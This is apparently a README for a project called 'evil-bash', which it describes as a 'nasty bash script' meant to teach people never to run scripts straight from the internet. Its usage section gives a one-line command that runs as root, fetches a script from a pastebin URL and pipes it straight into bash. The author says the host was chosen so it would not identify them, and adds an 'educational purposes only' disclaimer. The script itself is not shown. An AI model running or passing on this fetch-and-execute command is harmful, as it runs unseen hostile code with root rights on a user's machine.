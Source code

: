 # evil-bash
**FOR EDUCATIONAL PURPOSES ONLY**
A nasty bash script, used as a lesson on why to never run scripts directly from the internet.

I don't take full credit for this as I was inspired by a user on twitter for this one. 

However, I wanted to see if I could accomplish a similar task but without linking myself to a particular website or service, that had anything higher than basic authentication (username and password). So no sign up pages, no email verification no, personally identifying details being requested. 

I feel that I accomplished this in theory.

### Use:
Simply retrieve the script and run it from the internet directly like below;  
`su -c 'curl http://ix.io/1iVu.sh | bash'`  
*always append .sh to the url so it fetchs the contents as a shell script*

### Caution:
I am not responsible for the use of this script in any way shape or form. This script was designed as research
and **educational purposes only.** *You've been warned.

### License:
http://www.wtfpl.net/txt/copying/
